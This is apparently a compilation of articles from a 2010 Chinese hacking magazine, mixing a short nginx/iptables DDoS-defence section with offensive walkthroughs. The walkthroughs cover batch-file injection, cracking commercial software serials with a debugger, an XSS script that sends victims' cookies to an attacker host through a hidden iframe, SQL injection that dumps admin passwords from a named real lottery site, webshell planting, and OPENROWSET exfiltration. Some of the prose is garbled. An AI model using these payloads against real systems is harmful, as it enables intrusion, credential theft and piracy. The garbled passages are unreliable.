        location /somedir/ {
            limit_conn my_zone 1;
        }
    }
}
```

其中“limit_zone my_zone $binary_remote_addr 10m”的意思是定义一个名称为 my_zone 的存储区域，my_zone 中的内容为远程 IP 地址，且 my_zone 的大小为 10M；“location /somedir/”的意思是针对 somedir 目录应用规则；“limit_conn my_zone 1”的意思是针对上面定义的 my_zone 记录区中的 IP 地址，在指定目录只建立一个连接。

NginxHttpLimitReqModule 可以根据条件进行请求频率控制，例如可以定义以下代码：

```nginx
http {
    limit_req_zone $binary_remote_addr zone=my_req_zone:10m rate=1r/s;
    server {
        location /somedir/ {
            limit_conn my_req_zone burst=2;
        }
    }
}
```

当有连接触发上述规则时，Nginx 会返回“503 Service Temporarily Unavailable”，停止用户请求。返回一个 503 对服务影响不大，只是用户在 nginx 终端页面会看到提示，当对某些非法请求进行检测的时候可能会出现。

为了测试效果，我将以上代码载入 Nginx 的配置文件，并编写了一个 php 文件并重命名为 phpinfo，另写了一个 html 文件，并嵌入了多个 iframe 调用 php 文件。当打开这个 html 文件时，可以看到只有一个 iframe 中的 php 文件正常显示，其余的 iframe 都显示为 503 错误，如图 1。

应用举例（Discuz）

Discuz 是使用比较多的一个 php 论坛程序，它有比较多可以直接访问的 php 文件，但其中最容易受到攻击的一般有 index.php、forumdisplay.php（板块显示）和 viewthread.php（帖子显示）。攻击一般会对这些页面发起大量请求，导致 HTTP 服务器连接数耗尽，mysql 数据库停止响应，最终导致服务器崩溃。

为了防止上述页面被攻击，我们可以设定以下规则进行防御：

```nginx
http {
    limit_zone myzone_bbs $binary_remote_addr 10m;
    limit_req_zone $binary_remote_addr zone=bbs:10m;
    server {
        location ~ /bbs/(index/forumdisplay/viewthread.php) {
            limit_conn myzone_bbs 2;
            limit_req zone=bbs burst=2 nodelay;
            root html;
            fastcgi_pass unix:/dev/shm/php-cgi.sock;
            fastcgi_index index.php;
            fastcgi_param SCRIPT_FILENAME /usr/share/nginx/html$fastcgi_script_name;
            include fastcgi_params;
        }
    }
}
```


503 Service Temporarily Unavailable

503 Service Temporarily Unavailable

503 Service Temporarily Unavailable

503 Service Temporarily Unavailable

503 Service Temporarily Unavailable

503 Service Temporarily Unavailable

503 Service Temporarily Unavailable

error_page 503 /errpage/503.html;

503 页面的源代码：

```html
<html>
<head>
<title>页面即将载入...</title>
<meta http-equiv="content-type" content="text/html; charset=GBK">
<META NAME="ROBOTS" CONTENT="NOINDEX, NOFOLLOW">
</head>
<body bgcolor="#FFFFFF">
<table cellspacing="0" cellpadding="0" border="0" width="700" align="center" height="85%">
  <tr align="center" valign="middle">
    <td>
      <table cellpadding="10" cellspacing="0" border="0" width="805" align="center">
        <tr valign="middle" align="center" bgcolor="#E8CBE8">
          <td><b>连接被拒绝</b></td>
        </tr>
        <tr><td style="font-size: 16px;">请等待系统恢复...或点击进入 <a href="javascript:window.location.reload();">刷新页面</a></td></tr>
      </table>
    </td>
  </tr>
</table>
</body>
</html>
```

## 2、被动防御

虽然主动防御已经阻挡了大多数 HTTP GET FLOOD 攻击，但是通常执拗一点的攻击者总会找到你漏洞的环节进行攻击，所以我们在这里也要介绍一下被动防御的一些方法。

- 1. 封 IP 地址

访问者通过浏览器正常访问网站，与服务器建立的连接一般不会超过 20 个，我们可以通过脚本禁止连接数过大的 IP 进行访问。以下脚本通过 netstat 命令列出所有连接，将连接数最高的一个 IP（如果连接数超过 150）通过 iptables 阻止访问：

```sh
#!/bin/sh
status=`netstat -na|awk '$5 ~ /^-?[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+/ {print $5}'|awk -F: '{print $1}'|sort |uniq -c |sort -rn|tail -n 1`
NUM=`echo $status|awk '{print $1}'`
IP=`echo $status|awk '{print $2}'`
if [ $NUM -gt 150 ]
then
    echo "IP $IP is over $NUM, BAN IT!"
    /sbin/iptables -I INPUT -s $IP -j DROP
fi
```

#### 批处理注入补充

## 一、前言

在NoHack 2008年6月刊上，作者nova&bbeyond向大家介绍了批处理注入，并对其防范方法做了介绍。在2008年10月，作者skywsword又对6月份的批处理注入方法进行了分析，写出了完整版的防注入程序。因为最近在学习批处理，特此再来分析一下。

## 二、分析

虽说他们已经介绍过批处理注入，但他们可能忽视了一些涉及双界面的问题。所以我再向大家介绍下批处理注入的相关内容。

先看例子：

```
set /p pwd=请输入登录密码:
if "520" == "%pwd%" (goto ok) else (goto login)
:ok
cls
cmd.exe
```

这个例子很简单，运行后要求输入登录密码，若输入的密码是520就跳转到"ok"，否则就跳转到开始处。进行批处理注入时，如果我们在输入框内输入"123&echo o&if "1"=="1""（不包括双引号），输入后就完成了注入。此时我们直接输入"&"后面的语句，因为"&"不管前后的语句执行是否成功，都会执行后面的语句；后面的语句如果是"1"=="1"则满足条件，于是成功跳过了密码验证。

```
@echo off
title 请登录!
:begin
if exist %systemroot%\system32\syslog.log del %systemroot%\system32\syslog.log
cls
set /p pwd=请输入登录密码:
echo %pwd%>> %systemroot%\system32\syslog.log
if not exist %systemroot%\system32\syslog.log goto begin
if "%systemroot%"=="%systemroot%" goto ok
if %1=="" (goto login) else (goto begin)
if exist %systemroot%\system32\syslog.log findstr /i "|" = %systemroot%\system32\syslog.log
if %0==1 goto ok
cmd.exe
```

原作者的方法就是利用"echo ...>>syslog.log"的形式，若为命令，将无法创建文件，然后通过判断文件是否存在来确定用户是否输入了命令。

看运行结果，轻易地绕过去了！今天要讲的是直接运行批处理文件。前面作者skywsword的程序在输入密码后直接调用了cmd.exe。这个时候在命令提示符下面直接调用命令，没有经过cmd.exe直接进入命令模式，因此可以再次利用批处理文件通过命令注入。

```
if "%1207"=="" (goto login) else (goto begin)
```

运行该程序，当输入密码时输入："2>nul&cmd.exe&echo on&rem "，代入进去后，程序就会执行。因为"2>nul"会先屏蔽掉错误，"cmd.exe"则是在执行命令进入命令模式；后面的"rem"是注释掉下面的语句。

## 三、思考

对于代码中的这一行：

```
echo %pwd%>%systemroot%\system32\syslog.log
```

我们可以这样构造语句："&cmd.exe&echo on&rem("，代入进去就变成了：

```
echo &cmd.exe&echo on&rem(>%systemroot%\system32\syslog.log
```

大家一看就知道可以绕过去。

不过看清楚，上面有"echo处于关闭状态"。所以我把代码改成了：

```
call echo %pwd%>%systemroot%\system32\syslog.log
```

这样"echo"会出现错误。我们还可以用到SET下的取值命令，如下：

```
set /p pwd=
set /p pwd=请输入登录密码:
if not "%pwd%"=="" set /p=%pwd% -o,%6
```

如果输入的密码不为空，就只取前6位进行验证。为了防止运算，我们做了下列修改：

```
@echo off
title 错误！NoHack专版
:begin
if exist %systemroot%\system32\l.txt del /f %systemroot%\system32\l.txt
cls
if exist %systemroot%\system32\l.txt del /f %systemroot%\system32\l.txt
if exist %systemroot%\system32\l.txt goto begin
set /p lx=请输入登录密码：
if not "%lx%"=="" set lx=%lx:~0,6%
echo %lx%>%systemroot%\system32\l.txt
ren %systemroot%\system32\l.txt %systemroot%\system32\l.txt.god
cmd.exe
```

另外一种办法的代码如下：

```
@echo off
title 错误！NoHack专版
:begin
if exist %systemroot%\system32\password1.txt del /f %systemroot%\system32\password1.txt
if exist %systemroot%\system32\password2.txt del /f %systemroot%\system32\password2.txt
if exist %systemroot%\system32\password.txt del /f %systemroot%\system32\password.txt
cls

echo 使用CMD窗，请先登录！
echo.
set /p lx=请输入登录密码：
if not "%lx%"=="" set lx=%lx:~0,6%
echo %lx%>%systemroot%\system32\password1.txt
if not exist %systemroot%\system32\password1.txt goto begin
echo "123456">%systemroot%\system32\password2.txt
cd\
C:\
cd \windows\system
FC password1.txt password2.txt>password3.txt
Rem 让password1.txt和password2.txt同时开启，将结果保存在password3.txt里！
type password3.txt|findstr "password" >password4.txt
Rem 将password3.txt的内容通过findstr来查找结果。
if %errorlevel%==0 goto begin
Rem 利用比对用户输入的密码和预设密码是否相同！

if exist %systemroot%\system32\password1.txt del /f %systemroot%\system32\password1.txt
if exist %systemroot%\system32\password2.txt del /f %systemroot%\system32\password2.txt
if exist %systemroot%\system32\password3.txt del /f %systemroot%\system32\password3.txt
cmd.exe
```

这个版本的方法是利用"FC"命令来比较文件。

## 四、结尾

到此，真的结束了！大家一定会问：你保证写的两个版本的程序就完全不同吗？我保证的告诉你：不是！说不定这两个程序都能被破解。不能做到绝对防注入。当然，在阅读此文章的之余，若有更好的办法，就请赶快提出来，我们一定会学习！

---

#### 一次破解之附加进程调试

## ——对一款加密软件的破解以及安全性分析

作者：obaby

通过本文可以学到：破解加密软件的技巧

这次要破解的程序是文件夹加密王。对于这个软件，从2008年后就一直破解到现在的2010钻石版。

2010版改变了注册方式，注册可不是在主程序中完成，而是加入到了startup.exe和相关程序目录下的两个exe文件。加密方式分别是Asprotect和Aspack。startup的脱壳可以直接用脱壳工具完成。

重新用Pedis载入脱壳后的程序，可以看到使用的是Borland Delphi 6.0-7.0。下面开始破解，由于startup注册名和密码是相通的，去掉按钮控件名后，程序缺少了输入的按钮控件，所以很简单。

知道了程序的关键call，下面就可以跟入"004ABFDE"这个call进行真正注册机的判断。

在004ABFDE下断点，重新进行注册验证，程序在004ABFDE处中断后按F7跟入这个call。然后F8单步走，在程序走到004D91C6这一行时注意观察寄存器的值，此时在Eax中保存的即为正确的"伪注册码"（至于为什么称为伪码，后面会提到）。

直接用OD载入脱壳后的程序，查找unicode参考，可以看到提示信息和提示框。只是在后面没有任何的明文字符码。

直接在提示信息上下F2断点，F9运行程序，输入用户名和假的注册码后点注册，程序跳转到了前面的提示信息。F7运行程序，到这段代码的开始处。输入注册码，重新注册认证，这次需要单步进行。

程序中没有关于弹窗文案的内容，因此可以看到对话框内容与程序中给出的内容并不一致，这也是为什么会有"伪码"这样的说法。

在这里对"ASProtect 2.0x Registered -> Alexey Solodovnikov"保护壳进行分析。绕过该保护壳过程中还需要使用相关的脚本。

用OD载入脱壳后的主程序，忽略后程序，依然有提示信息和解锁的运行条件。此时如果在界面中运行流程并单步，会发现提示信息与对应图表一致。

程序中并没有对话框的可见文本，说明提示信息可能来自于资源或被隐藏处理。

对加密文件夹Test dir设置密码进行密钥的判断。这样就可以将加密的内容取出来。继续F8单步往下走，当程序运行到如下代码段时：

| 地址 | 指令 | 说明 |
|------|------|------|
| 004ED24D | E8 A775FF | call 00464800，消息函数，计算出加密前的密码 |
| 004ED2D0 | 8855 F0 | mov edx, dword ptr [ebp-10] | 加密后的密码 |
| 004ED2DC | 8D45 F8 | lea ecx, dword ptr [ebp-8] | 加密前的密码 |

密码为123456，文件夹在加密后文件名末尾多了一个[._下划线]。

现在对加密后的文件夹进行解密。选择OD的文件菜单中的附加功能。

按Alt+F9返回到用户程序，同时点击键盘提示，OD就返回到了用户界面，此时会弹出密码对话框。

在此继续向下单步，在系统里按Ctrl+A返回到程序内，让用户输入中断，程序跳转到消息函数，然后返回到主程序。

重新进行解密，会发现第0x004ED216就恢复实现，故此只要将它这行nop掉即可通过错误提示。

此时的文件夹可以看到原来已经全部解密，注意桌面上两个文件夹名称相同的文件以及文件夹内的内容。

---

# 双警齐下之搞定Full Speed

这边的网速真叫人受不了了！想象一下四个人共用1Mbps的网络。于是就去网上找加速软件，找到了Full Speed。于是下载了。感觉的确不错，可惜是共享软件，穷啊。

从本文可以学到：基本的破解方法

Full Speed是需要安装的。安装完成后，开始对Full Speed的启动进行分析！

键一：查找文本，查找"Sorry,"，找到了三处。

按F2在三处下断点，然后运行一下程序，接下来直接搜索窗口的参数文件或单击"License"——"License Full Speed"打开注册框，输入假码，然后点击"Enter"，程序暂停在0044C857处。代码如下：

```
0044C857  push FullSpe.0041BE80 ; UNICODE "Sorry, wrong unlock key"
```

当按了30多次F8后，注册码"282413276"就在0044C8BB处出现了。至此，注册码成功起到了作用。

先别急，下面介绍另一种方法，可以破解大部分的VB程序。先用插件再调一下调试文本，删除断点，以免不小心触发。然后重启继续分析，同样按搜索——查找——所有模块的名称进行查找。

## 中级 | Cracker

### 2010 第一季

向下翻页找到 MSVBVM60.__vbaStrCmp 模块下的 vbaStrCmp，如图9。双击它，进去后 F12 设置断点，F9 运行一下，按照先前的步骤打开注册机，输入假码，点击“Enter”，呵呵，程序就断在 734793DA 处，如图10。

代码快响了，然后要有点耐心按大概 35 次 F8，注……

## 软件破解入门

## 系列四

从本文你可以学到：
- 明码比较软件的破解

大家好，我们的软件破解入门系列已经进行到第四课了。这一期给大家讲解明码比较软件的破解以及内存注射制作方法。

首先我们要搞清楚什么是明码比较。明码比较，是软件注册流程中，由于软件作者的保护措施做得不够到位，使得真正的注册码出现在了内存之中，导致我们在破解的时候可以看到真正的注册码，从而轻而易举地注册软件。下面我们就通过一个实例来了解一下如何破解这类软件中的 “h0hack” 注册机 “12345678”，软件启动提示“欢迎！”，如图1所示。

点击“确定”以后，打开软件时，我们在主窗口中看到用户实用、程序软件是采用了黑白排版方式。收集完基本信息后，我们用 PEiD 来观察一下软件，如果是按精确的特征进行破解，就看见了软件代码存在后缀……

148 nohack.me

### 2010 第一季

## Cracker | Middle-Level

本文内容主要围绕软件逆向、调试、漏洞利用与网页安全案例展开，配有多张截图与分析说明。

## 第二季 西线无战事

#### 曲折的 XSS

NetPatch

好久没写文章了，为了能清楚老些牛……

## 中级 | 西线无战事

### 2010 第二季

密码

图1  
图2  
图3

```text
End with
end if
%>
check.vbs 监控脚本如下：
Do Until check_u1='true'
If check() <> 200 Then
  WSH.stdout.Write Chr(13)&"nothing"&Chr(0)
  check()
Else
  For num = 1 To 20
    CreateObject("sapi.spvoice").Speak("Got it, go go go.")
  Next
  Exit Do
End If
Wsh.Sleep 1000
Loop
Function check()
  Set Retrieval = CreateObject("Microsoft.XMLHTTP")
  With Retrieval
    .Open "GET", "http://www.xxxxxx.com/1.txt", False, "", ""
    .Send
  End With
End Function
```

发出了，但是攻击者单是把全域目标打开，如图4所示。提交后，开启 CMD，执行 check.vbs 了，如图5所示。一番时间已经 11 点了。先休息，等到深夜，警钟响了，于是彻底上眼觉了。

发现一番，又瞧瞧旁边。可一旦看到 BING 之类记录 IP 所绑定的域名，上面还有一种类型的站点。与此同时又发现了 FCKEDITOR 目录，都是被利用了。测试文件大小，主要是不断地建立、关闭、删除，这整个服务器都毫无影响，没办法，只能重新搜集样本。突然想到，B2B 部门和客户的留言是比较重要的信息，管理员应该会定时进行查看。如果有 XSS 的话，显示不出来的东西可能在后台。说干就干。

说到这样来虽然有些强势的话，总感到有些微妙。可单是这样的处理，似乎就够了。不过由于对于 B2B 的邮件人员，估计对方也不大懂吧，某出去了（PS：就是内网就对访问了，除非身后穿了大衣了）。

- 首先需要获取目标服务器密码
- 其次获取对 Cookie 与 Session
- 获取几个信息点，发现还有几个被埋的地方
- 由于 Session 失效，使得我们登录效果更加难测

为了不暴露更多信息，我决定采用定时监控形式。这一块即获取 Cookie 就报警。

```text
http://www.xxxxxx.com/1.js（这是获取窃取的域名）
var serverPath=window.location.pathname;
cv=escape(document.cookie);
function I()
{
  ifrm=document.createElement("IFRAME");
  document.body.appendChild(ifrm);
  ifrm.width=0;
  ifrm.height=0;
  ifrm.src="http://www.xxxxxx.com/1.asp?v="+var1+"|"+ev;
  setTimeout(I,1000);
}

http://www.xxxxxx.com/1.asp 的内容如下（用来接收信息）
<%
s=request("s")
if s<>"" then
  set fso=server.CreateObject("Scripting.FileSystemObject")
  with fso.OpenTextFile(server.MapPath("1.txt"),8,true)
    .WriteLine s
    .Close
  end with
end if
%>
```

先执行 `curl -D session`。

### 2010 第二季

## 西线无战事 | Middle-Level

第二天，Trace 君也说 SHELL 这边基本没啥位置了，看看那个被删除的上传文件吧，参数都看了看，或许别的后台没删除。没办法，只能批量扫了下那个上传文件。不过，虽然扫出了几个没删除的，但是全部都要登录系统才能使用。但是这回我们已经有相同的后台了，进入别的后台也是时间问题。

```text
var host=window.location.host;
var str=unescape(window.location.pathname);
var url="http://"+host+"/"+str.substring(1,str.indexOf("/index"));
cvn=escape(document.cookie);
function f(){
  ifrm=document.createElement('IFRAME');
  document.body.appendChild(ifrm);
  ifrm.width=0;
  ifrm.height=0;
  ifrm.src="http://www.xxxxx.com/1.asp?url="+escape(url);
}
setTimeout(f,1000);
```

`http://www.xxxxx.com/b2b-admin8899/index.asp` 获得 Cookie 样本，然后修改 Cookie 值为我们获取的 session.txt，格式如下：

```text
HTTP/1.1 200 OK
Date: Wed, 11 Mar 2010 03:34:42 GMT
Server: Microsoft-IIS/6.0
Content-Length: 105
Content-Type: text/html
Set-Cookie: ASPSESSIONID...; path=/
Cache-Control: private
```

bat 内容：
- `curl -b session.txt http://www.xxxxx.com/b2b-admin8899/index.asp`
- `ping -n 5 127.1 >null`
- `goto go`

虽然进入后台了，但是翻遍后台，也没找到可以获取 SHELL 的好地方。有一个上传被删除了，还有一个是开源的 FLASH 上传，于是找了代码研究下去：

```text
call wenjian(file)  '路径限制得很死
filezmhz=filen(file),FileName
if filezmhz="jpg" or filezmhz="jpeg" or filezmhz="bmp" or filezmhz="png" or filezmhz="mp3" then
  ...
end if
```

发现后缀也被限制得死死的，不匹配的话没办法上传了。万般无奈之下，只能加点用户，等白天再来继续获取，上传也就暂时结束。

## JSP+Oracle 手工注入中国足彩在线

SQL 注入漏洞大家都已经很熟悉了，根据数据库的不同，注入语句的构造也略有不同。平时比较常见的是通用数据库的 MySQL 注入，也有 Oracle、DB2 比较多见。今天就和大家一起来探讨一下 JSP+Oracle 类型的注入利用。

首先，我们选中的站是中国足彩在线，登录相关的后台地址并打开首页页面，在“J...奉为……”

### 一、判断数据库类型

首先是判断数据库类型，这个方法很多。比较简单方便的是在 URL 后面直接加 SQL 进行报错。MySQL 的注释符是 `#` 或 `--`，SQL Server 和 Oracle 的是 `--`。

前者返回错误页面如图2所示。提示错误信息：`java.sql.SQLSyntaxErrorException: ORA-01742: comment not terminated properly`，后来返回页面正常，说明数据库类型不是 MySQL，有可能是 SQL Server 或 Oracle。下面进一步判断。

提交如下 URL 判断是否存在 user_tables 表，因为 user_tables 表是 Oracle 特有的表，如果页面返回正常说明是 Oracle 数据库，返回错误说明是 SQL Server 数据库。  
`http://www.totoxxxxx.com/jst/md_end.jsp?id=17 and (select count(*) from user_tables)>0`

### 二、猜解字段个数

得到了数据库类型，下一步就是猜解当前表中数据字段个数。字段个数有两种方法：一种是利用 `order by` 来确定字段个数，另一种是 `union select null,null,...` 来判断字段个数。我们使用比较常见的 `order by`。

依次提交：

`http://www.totoxxxxx.com/jst/md_end.jsp?id=17 order by 1--`  
`http://www.totoxxxxx.com/jst/md_end.jsp?id=17 order by 2--`  
`http://www.totoxxxxx.com/jst/md_end.jsp?id=17 order by 3--`  
`http://www.totoxxxxx.com/jst/md_end.jsp?id=17 order by 4--`  
`http://www.totoxxxxx.com/jst/md_end.jsp?id=17 order by 5--`  
`http://www.totoxxxxx.com/jst/md_end.jsp?id=17 order by 6--`

从 1 到 6 都是返回正常页面，8 时返回如图3所示的错误页面：提示错误信息  
`java.sql.SQLSyntaxErrorException: ORA-01785: ORDER BY item must be the number of a SELECT-list expression`，说明当前表中字段数是 7。

### 三、判断字段数据类型

一般到这里需要判断一下字段的数据类型，然后将获取的数据与字段类型匹配，才能使用 union 联合查询。这步很关键。如果数据类型不对应，是取不出库内内容的，这也是很多初学者容易失败的主要因素。

提交 URL：  
`http://www.totoxxxxx.com/jst/md_end.jsp?id=17%20and%201=2%20union%20select%20null,'null'%20from%20user_tables--`

返回信息如图4。

首先可以看到 null 显示在姓名和性别列，说明我们提交的第一个字段是字符串类型。继续提交 URL：  
`http://www.totoxxxxx.com/jst/md_end.jsp?id=17%20and%201=2%20union%20select%20null,'null',null,null,null,null,null%20from%20user_tables--`

返回显示错误信息：`expression must have same datatype as corresponding expression`，说明数据类型不匹配。依次再试下去可以发现当前表中第 1、3、4、6、7 字段都是字符串类型。好了，进一步已经可以查看爆库类型了。

### 四、获取数据库基本信息

使用联合查询获得数据库基本信息，首先要利用前面获得的字段类型。

### 五、暴表名

暴表名的方法我们用查询系统表 all_tables 中的 TABLE_NAME 记录来实现。在暴表的时候可以使用一些技巧，比如用 `owner='TOTO'` 来限制 TOTO 用户的表。

提交 URL：  
`http://www.totoxxxx.com/jst/md_end.jsp?id=17%20and%201=2%20union%20select%20SYS_CONTEXT('USERENV','CURRENT_USER'),null,null,null,null,null,null%20from%20all_tables--`

返回结果如图7，当前数据库连接用户是 TOTO。

得到一个名为 A_C_COUNTS 的表，看起来只爆出了第一个表。要想显示后面的表名就要使用一点技巧。我是用 `TABLE_NAME>'ACCOUNTS'` 来实现的，就是去除 ACCOUNTS 表后的第一个表。

提交 URL：  
`http://www.totoxxxx.com/jst/md_end.jsp?id=17%20and%201=2%20union%20select%20TABLE_NAME,2,'3',4,'5',6,'7'%20from%20all_tables%20where%20owner='TOTO'%20and%20TABLE_NAME>'ACCOUNTS'--`

返回信息如图8。

### 六、暴列名

有了表名，暴列名就简单多了。可以查询系统表 cols 中的 COLUMN_NAME 字段记录，方法和暴表名一样。

提交 URL：  
`http://www.totoxxxx.com/jst/md_end.jsp?id=17%20and%201=2%20union%20select%20COLUMN_NAME,2,'3',4,'5',6,'7'%20from%20cols%20where%20table_name='USERMG'--`

得到 USERMG 表中第一列字段名后，依然用排除法进行。

提交 URL：  
`http://www.totoxxxx.com/jst/md_end.jsp?id=17%20and%201=2%20union%20select%20COLUMN_NAME,2,'3',4,'5',6,'7'%20from%20cols%20where%20table_name='USERMG'%20and%20COLUMN_NAME<>'USER_NAME'--`

直到找到 USERMG 表的完整列名为止。然后在附有表名中找与用户相关的表，发现 USERMG 表。不是一下子就猜到 USERMG 表是管理员账号表，我是在暴列名之后才定位到它，因此渗透要有耐心。

### 七、暴数据

有了表名、列名，数据库数据获取就相对容易了。只要执行 SQL 语句  
`select USER_CODE,2,USER_COMPANY,USER_PASS,5,6,USER_NAME from USERMG`  
即可。顺便还可以爆电话号码和姓名。

提交 URL：  
`http://www.totoxxxx.com/jst/md_end.jsp?id=17%20and%201=2%20union%20select%20USER_CODE,2,'4'%20from ...`

## 中级 | 西线无战事

### 2010 第二季

```php
#include template("data/oblock/sd")
$subcontent = ob_get_contents();
ob_end();
...
```

下面说一个 UCHome 后台拿 shell 的 0day。漏洞出现在 js.php 文件中，存在代码执行漏洞，原因是正则匹配时使用不当，导致可以通过构造字符串进行代码执行。在 PHP 中单引号与双引号是有区别的：双引号里面的字段会经过编译器解释，然后再当作 HTML 代码输出；单引号里面的不是这样解释，直接输出。看代码，发现这正是利用这一点在对字符串进行处理，导致了代码执行。

| 字段 | 内容 |
|---|---|
| 数据库名 | uc_home |
| 用户名 | admin |
| 密码 | totol1admin |

```sql
SELECT * FROM `uchome_blog` AS `blog` WHERE `blog`.`friend` = '0'
```

php?a=block&op=add，模块名随便填，点击“提交”。然后在“数据”里插入 HTML 代码即可。

### 八、拿 webshell

发现网站论坛使用的是 Discuz，Blog 系统使用的是 UCHome，那么拿 webshell 的方法有很多，我简单介绍两种。首先是 Discuz 论坛后台用上面“论坛管理”——“界面风格”——“默认风格”——“详情”——“新增变量”，按图13所示填写。

接下来选择原始信息，在 data 目录下生成 a.php，一个包含木马，密码是 cmd，用一句话后门连接提交即可。

（文中所涉及工具和方法仅供学习研究，勿用于非法用途）

## 透过深训科技系统浅谈 ASP 程序常见漏洞

### 一、前言

众所周知，ASP 程序的安全性不好。笔者认为有两个原因：1，没有完善的系统保护；2，没有强大的函数，这正好和 PHP 形成鲜明对比。PHP 有 gpc 的保护，有 init、strval、addslashes 等函数的方便处理。很多在开发细节中会补掉的问题，在防护不足时，ASP 更容易暴露出来。

- 1. SQL 注入漏洞（GET、POST、COOKIE，以及各种提交方法）。
- 2. XSS 跨站脚本攻击（多在留言、主题、发帖处）。
- 3. 上传漏洞（包括通过扩展名、附加上传协议、通过伪造等）。
- 4. COM 组件相关伪造问题（互联网中较少见）。
- 5. 后台文件上传漏洞（特别是密码泄露、删除、编辑功能的关键点，越过 response.end、cookie 破坏）。
- 6. 文本外观与网络安全问题（内文下段、数据集编码）。

### 二、正文

先看 SQL 注入，黑盒浏览一个网站，目标网址如：
http://localhost/ki/sortnew.asp?sort_id=33%20and%201=1

大家经常遇到吧，拿到一套网站，先看数据库表名、字段名关系，我们构造 SQL Injection 语句：
news.asp?news_id=94 and 9=0 union select 1,2,admin_name,admin_pass,5 from admin

变量 key 未经过滤就被输入 SQL 查询语句中，构成搜索型注入。我们通过这一 test 发现数据库名，再继续找。

回车，网站果然没有过滤。接下来找一个存在的产品 VIA，键入：
`'VIA' and 1=1 and '%'='%'`
和
`'VIA' and 1=2 and '%'='%'`

带入 SQL 查询后进行对比。

返回结果如图6、图7。我们只要变换 1=1 / 1=2 就能验证是否进入查询语句，这样在原先页面中就可以逐字段检索记录。因为我们不知道表、字段，可以先从数据库信息入手。普通语句中有 or 可能被拦截，后续借用 and 1=1 / and 1=2 之类的方式即可验证。

SQL Injection 还不止这样。再说 XSS，在 web2.0 下，XSS hacking 也发挥着重要作用，例如发布广告、注册、发短信用等，很多系统都会在留言页面展示内容。

这次小型 XSS 在 ajax 帮助下也可执行并影响后台权限。比如加入一个 VIP 用户，后台操作 ws 代码。构造 js 文件、代码如下：

```javascript
function createRequest() {
    var xmlHttp;
    if (window.ActiveXObject) {
        xmlHttp = new ActiveXObject("Microsoft.XMLHTTP");
    } else if (window.XMLHttpRequest) {
        xmlHttp = new XMLHttpRequest();
    }
    return xmlHttp;
}

var xmlHttp;
xmlHttp = createRequest();
// 创建 XMLHttpRequest
xmlHttp.open("POST", url, true); // 打开接口
xmlHttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xmlHttp.send(data1);
```

把 js 传到你的空间，再往那个用户用户名处填上代码 `<script ...>`。

Admin_name、admin_pass 直接带入查询，我们输入 `or'='or'`，语句变成：
`sql='select * from admin where admin_name='' or'='or'' and admin_pass=''zxcvz''`

“假 OR 真”逻辑下，只要有一个真结果就成立，所以语句最终为真，成功登录。后台软件有 session 验证，所以 cookies 数据没有用，验证码有效。

### 三、总结

好了，这套系统写成这样，也算是 ASP 漏洞案例。我们找漏洞时会用到入侵与编程的方法，这只是程序语言范围内的技术讨论。系统安全还涉及更多方法，后续可继续研究混淆、过滤与防御机制。

#### 检测某地方新闻小站

一日，朋友发来一个 URL，让拿 SHELL。打开一看，是一个新闻站点。

一看几乎全是 HTML 静态页面，估计是类似 CMS 的程序。前台看似静态，后台可能是动态生成路径。先用 WWWSCAN 扫描，初步只看到上传点；继续扫描更多信息，发现使用的是 ASP 文件，后来一个个去测试。

整站用了防注入程序，而且有的地方单独用了 isnumeric 之类函数进行判断。经过长时间手工检测，终于在一个新闻评论页里找到了一个 insert 函数。我在发表评论处输入一个单引号，报错了；从报错信息可知是 SQL Server 数据库。输入两个单引号，页面返回正常，这里很可能是一个闭合点。测试后发现下面语句可以成功注入：
`'1,1,1')--sp_password`

OPENROWSET('SQLOLEDB','222.35.xxx.xx','test';'123456','SELECT [value] FROM pubs..op')
select count(*) from adminsmg--sp_password

参考前人的思路后，围绕本机可能执行批处理来尝试。确认该点可利用后，利用 OPENROWSET 函数开始读取系统表。先在查询语句里获取服务器信息，再逐步分析权限、库名和用户列表。接着根据结果构造进一步查询，最终可看到数据库内容。

再在页面中可看到登录页面，输入用户名和密码后会出现处理结果。

于是用 LIKE 进行模糊查询，先定义变量，再将查询结果拼接到动态 SQL 中；例如：
insert into OPENROWSET('SQLOLEDB','222.35.xxx.xx','test';'123456','SELECT [value] FROM pubs..op')
select top 100 cast(msgContent as varchar(8000)) from adminmsg where msgContent like '%后台地址%'

最后将结果写入页面中，并继续尝试更换关键字，继续利用 adminmsg、users 表中的数据。

然后就是等。过了大概两三小时，result.txt 里有记录了。记下地址，直接访问该地址，并没有提示权限不足后跳转登录页，而是到了图片网站主页。并且发现后台目录为 `/news/SYSOP/`，于是继续用 WWWSCAN 扫后台登录页。没有直接扫出有效入口，但登录页上出现了 login.asp，于是尝试以这个地址登录。

实际上这个登录页只是一个表单，提交时会记录到某处用于入侵验证。后来从日志中定位到 chklogin.asp。登录页代码（图12）显示了多种错误提示，结合后端逻辑可见其验证流程存在问题。

```html
<script language=javascript>
alert("错误，请输入用户名！");
location.href = "javascript:history.back()";
</script>

<script language=javascript>
alert("错误，请输入密码！");
location.href = "javascript:history.back()";
</script>

<script language=javascript>
alert("此用户名不存在");
location.href = "javascript:history.back()";
</script>

<script language=javascript>
alert("密码错误");
location.href = "javascript:history.back()";
</script>
```

```asp
if empty(username) then
    response.write "请输入管理员账号"
end if

if empty(password) then
    response.write "请输入管理员密码"
end if

rs.open "select xxxx from admin where username = '" & username & "'"
if rs.eof then
    response.write "此用户不存在"
else
    if md5(password) = rs("password") then
        response.write "登陆成功"
    else
        response.write "密码错误"
    end if
end if
```

可以看到，在判断失效后只做了提示，并没有 `response.end`。因此代码还会继续向下执行。后续测试 chklogin.asp 参数时，发现用户名参数处理与预期不完全一致；若账号字段缺少严格空值检查，就可能通过构造空用户名参数绕过部分验证。

反复分析后回到 chklogin.asp 页面。根据上面代码，这个页面应先处理 username，再判断 password。直接用空字符串做用户名并测试密码，提示“请输入密码”。于是顺着流程找到了控制台入口线索。

继续分析发现关键点在 md5(password) 对空值的处理。我本地测试 md5.asp：

```asp
<%
Response.write md5(request("a"))
%>
```

访问 test.asp 不带 a 参数，输出 MD5 值为：`d41d8cd98f00b204e9800998ecf8427e`。  
回到 chklogin.asp，由于未传 password，`md5(password)` 结果同样是该值。只要让数据库里 sale 用户密码 MD5 也变成这个值，然后访问：
`chklogin.asp?username=sale`
即便提示输入密码，也可继续访问 main.asp 并成功进入。

进入后台后又发现上传漏洞。为绕过上传检测，可将 shell 以 split 方式伪装上传。

## 一次很有感的拿 shell 过程

网站地址到手后，开始本次检测。

